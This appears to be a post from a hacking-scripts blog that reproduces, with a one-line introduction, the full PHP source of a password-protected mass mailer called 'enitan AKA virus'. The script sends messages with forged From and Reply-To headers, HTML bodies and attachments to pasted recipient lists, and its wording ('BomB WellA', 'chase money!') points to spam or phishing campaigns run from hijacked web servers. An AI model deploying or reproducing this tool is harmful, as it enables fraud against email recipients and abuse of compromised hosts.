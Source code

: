 ```yaml
---
id: 114
title: enitan AKA virus
author: admin
layout: post
guid: http://hackingscripts.com/?p=114
permalink: /enitan-aka-virus/
categories:
  - enitan AKA virus
  - PHP
tags:
  - enitan AKA virus
  - PHP
---
```

This file was called &#8216;enitan AKA virus&#8217;, and this is the content of the title tag in the script, so I guess that&#8217;s what it&#8217;s called.

### Enitan AKA virus Source Code

{% highlight php %}<?php
@session_start();
@set_time_limit(0);
//PASSWORD CONFIGURATION
@$pass = $_POST['pass'];
$chk_login = true;
$password = "kill";
//END CONFIGURATION
if($pass == $password)
{
$_SESSION['nst'] = "$pass";
}
if($chk_login == true)
{
if(!isset($_SESSION['nst']) or $_SESSION['nst'] != $password)
{
die("
 &lt;title&gt;.:|enitan AKA Virus|:.&lt;/title&gt;
 &lt;center&gt;
 &lt;table border=0 cellpadding=0 cellspacing=0 width=100% height=100%&gt;
 &lt;tr&gt;&lt;td valign=middle align=center&gt;
 &lt;table width=100 bgcolor=black border=6 bordercolor=#444444&gt;
   &lt;tr&gt;&lt;td&gt;
 &lt;font size=1 face=verdana&gt;&lt;center&gt;
 &lt;b&gt;&lt;/font&gt;&lt;/a&gt;&lt;br&gt;&lt;/b&gt;
 &lt;/center&gt;
 &lt;form method=post&gt;
 &lt;font size=1 face=verdana
color=red&gt;&lt;strong&gt;&lt;center&gt;Mailer&lt;/center&gt;&lt;/strong&gt;&lt;br&gt;
 &lt;input type=password name=pass size=30&gt;
 &lt;/form&gt;
 &lt;b&gt;Host:&lt;/b&gt; ".$_SERVER["HTTP_HOST"]."&lt;br&gt;
 &lt;b&gt;IP:&lt;/b&gt; ".gethostbyname($_SERVER["HTTP_HOST"])."&lt;br&gt;
 &lt;b&gt;Your ip:&lt;/b&gt; ".$_SERVER["REMOTE_ADDR"]."
 &lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;
 &lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;
 ");
}
}
if(isset($_POST['action'] ) ){
$action=$_POST['action'];
$message=$_POST['message'];
$emaillist=$_POST['emaillist'];
$from=$_POST['from'];
$replyto=$_POST['replyto'];
$subject=$_POST['subject'];
$realname=$_POST['realname'];
$file_name=$_POST['file'];
$contenttype=$_POST['contenttype'];
       $message = urlencode($message);
       $message = ereg_replace("%5C%22", "%22", $message);
       $message = urldecode($message);
       $message = stripslashes($message);
       $subject = stripslashes($subject);
}
?>
&lt;html&gt;
&lt;head&gt;
&lt;title&gt;.:: mass mailer ::.&lt;/title&gt;
&lt;meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1"&gt;
&lt;style type="text/css"&gt;
&lt;!--
.style1 {
       font-family: Geneva, Arial, Helvetica, sans-serif;
       font-size: 12px;
}
--&gt;
&lt;/style&gt;
&lt;style type="text/css"&gt;
&lt;!--
.style1 {
       font-size: 20px;
       font-family: Geneva, Arial, Helvetica, sans-serif;
}
body {
   background-color: #000000;
}
.style2 {font-family: Georgia, "Times New Roman", Times, serif}
.style3 {
   color: #FF0000;
   font-weight: bold;
}
.style4 {color: #999999}
--&gt;
&lt;/style&gt;
&lt;/head&gt;
&lt;body text="#ffffff"&gt;
&lt;span class="style1"&gt;
&lt;center&gt;&lt;br&gt;
 &lt;SPAN lang=ar-sa&gt;&lt;FONT style="FONT-SIZE: 70pt"
face=Webdings
color=#ff0000&gt;!&lt;/FONT&gt;&lt;/SPAN&gt;&lt;/FONT&gt;&lt;/br&gt;
&lt;/center&gt;
&lt;br&gt;&lt;/span&gt;&lt;/p&gt;
&lt;form name="form1" method="post" action="" enctype="multipart/form-data"&gt;
       &lt;input type="hidden" name="action" value="send"&gt;
       &lt;br&gt;
 &lt;table width="100%" border="0"&gt;
   &lt;tr&gt;
     &lt;td width="10%"&gt;
       &lt;div align="right"&gt;&lt;font size="-3" face="Verdana, Arial,
Helvetica, sans-serif"&gt;Email:&lt;/font&gt;&lt;/div&gt;
     &lt;/td&gt;
     &lt;td width="18%"&gt;&lt;font size="-3" face="Verdana, Arial, Helvetica,
sans-serif"&gt;
       &lt;input type="text" name="from" value="<? print $from; ?>"
size="30"&gt;
       &lt;/font&gt;&lt;/td&gt;
     &lt;td width="31%"&gt;
       &lt;div align="right"&gt;&lt;font size="-3" face="Verdana, Arial,
Helvetica, sans-serif"&gt;Name:&lt;/font&gt;&lt;/div&gt;
     &lt;/td&gt;
     &lt;td width="41%"&gt;&lt;font size="-3" face="Verdana, Arial, Helvetica,
sans-serif"&gt;
       &lt;input type="text" name="realname" value="<? print $realname;
?>" size="30"&gt;
       &lt;/font&gt;&lt;/td&gt;
   &lt;/tr&gt;
   &lt;tr&gt;
     &lt;td width="10%"&gt;
       &lt;div align="right"&gt;&lt;font size="-3" face="Verdana, Arial,
Helvetica, sans-serif"&gt;Reply:&lt;/font&gt;&lt;/div&gt;
     &lt;/td&gt;
     &lt;td width="18%"&gt;&lt;font size="-3" face="Verdana, Arial, Helvetica,
sans-serif"&gt;
       &lt;input type="text" name="replyto" value="<? print $replyto;
?>" size="30"&gt;
       &lt;/font&gt;&lt;/td&gt;
     &lt;td width="31%"&gt;
       &lt;div align="right"&gt;&lt;font size="-3" face="Verdana, Arial,
Helvetica, sans-serif"&gt;Attach
         File:&lt;/font&gt;&lt;/div&gt;
     &lt;/td&gt;
     &lt;td width="41%"&gt;&lt;font size="-3" face="Verdana, Arial, Helvetica,
sans-serif"&gt;
       &lt;input type="file" name="file" size="30"&gt;
       &lt;/font&gt;&lt;/td&gt;
   &lt;/tr&gt;
   &lt;tr&gt;
     &lt;td width="10%"&gt;
       &lt;div align="right"&gt;&lt;font size="-3" face="Verdana, Arial,
Helvetica, sans-serif"&gt;Subject:&lt;/font&gt;&lt;/div&gt;
     &lt;/td&gt;
     &lt;td colspan="3"&gt;&lt;font size="-3" face="Verdana, Arial, Helvetica,
sans-serif"&gt;
       &lt;input type="text" name="subject" value="<? print $subject;
?>" size="66"&gt;
       &lt;/font&gt;&lt;/td&gt;
   &lt;/tr&gt;
   &lt;tr&gt;
     &lt;td width="10%" valign="top"&gt;
       &lt;div align="right"&gt;&lt;font size="-3" face="Verdana, Arial,
Helvetica, sans-serif"&gt;Mail:&lt;/font&gt;&lt;/div&gt;
     &lt;/td&gt;
     &lt;td width="18%" valign="top"&gt;&lt;font size="-3" face="Verdana,
Arial, Helvetica,
sans-serif"&gt;
       &lt;textarea name="message" cols="50" rows="10"&gt;<? print
$message; ?>&lt;/textarea&gt;
       &lt;br&gt;
       &lt;input type="radio" name="contenttype" value="plain"&gt;
       Text
       &lt;input name="contenttype" type="radio" value="html" checked&gt;
       HTML
       &lt;input type="submit" value="BomB WellA"&gt;
       &lt;/font&gt;&lt;/td&gt;
     &lt;td width="31%" valign="top"&gt;
       &lt;div align="right"&gt;
         &lt;font face="Verdana, Arial,
Helvetica, sans-serif" size="-3"&gt;Mail  to:&lt;/font&gt;&lt;/div&gt;
     &lt;/td&gt;
     &lt;td width="41%" valign="top"&gt;&lt;font size="-3" face="Verdana,
Arial, Helvetica, sans-serif"&gt;
       &lt;textarea name="emaillist" cols="30" rows="10"&gt;<? print
$emaillist; ?>&lt;/textarea&gt;&lt;/font&gt;&lt;/td&gt;
   &lt;/tr&gt;
 &lt;/table&gt;
&lt;/form&gt;
<?
if ($action){
       if (!$from && !$subject && !$message && !$emaillist){
       print "Please complete all fields before sending your message.";
       exit;
   }
   $allemails = split("\n", $emaillist);
           $numemails = count($allemails);
         for($x=0; $x&lt;$numemails; $x++){
               $to = $allemails[$x];
               if ($to){
               $to = ereg_replace(" ", "", $to);
               $message = ereg_replace("&email&", $to, $message);
               $subject = ereg_replace("&email&", $to, $subject);
               print " $to.......";
               flush();
               $header = "From: $realname &lt;$from&gt;\r\nReply-To: $replyto\r\n";
               $header .= "MIME-Version: 1.0\r\n";
           If ($file_name) $header .= "Content-Type: multipart/mixed;
boundary=$uid\r\n";
             If ($file_name) $header .= "--$uid\r\n";
               $header .= "Content-Type: text/$contenttype\r\n";
               $header .= "Content-Transfer-Encoding: 8bit\r\n\r\n";
               $header .= "$message\r\n";
           If ($file_name) $header .= "--$uid\r\n";
           If ($file_name) $header .= "Content-Type: $file_type;
name=\"$file_name\"\r\n";
           If ($file_name) $header .= "Content-Transfer-Encoding: base64\r\n";
           If ($file_name) $header .= "Content-Disposition:
attachment; filename=\"$file_name\"\r\n\r\n";
           If ($file_name) $header .= "$content\r\n";
           If ($file_name) $header .= "--$uid--";
               mail($to, $subject, "", $header);
               print "chase money!&lt;br&gt;";
               flush();
               }
               }
}
?>
&lt;style type="text/css"&gt;
&lt;!--
.style1 {
   font-size: 20px;
   font-family: Geneva, Arial, Helvetica, sans-serif;
}
--&gt;
&lt;/style&gt;&lt;center&gt;
&lt;p class="style1 style2 style3 style4"&gt;&lt;p class="style1"&gt;PHP Mailer&lt;br&gt;
 &copy enitan4evil@hotmail.com&lt;br&gt;
     &lt;/p&gt;  &lt;/p&gt;
&lt;/center&gt;
<?php
if(isset($_POST['action']) && $numemails !==0 ){echo
"&lt;script&gt;alert('Sending Completed\\r\\nTotal Email
$numemails\\r\\n-Shout Lastborn and Hustle On!');
&lt;/script&gt;";}
?>
&lt;/body&gt;
&lt;/html&gt;
{% endhighlight %}

### Enitan AKA virus screenshot

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/01/enitan.png" alt="enitan aka virus screenshot" width="411" height="293" class="aligncenter size-full wp-image-352" />][1]

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/enitan.png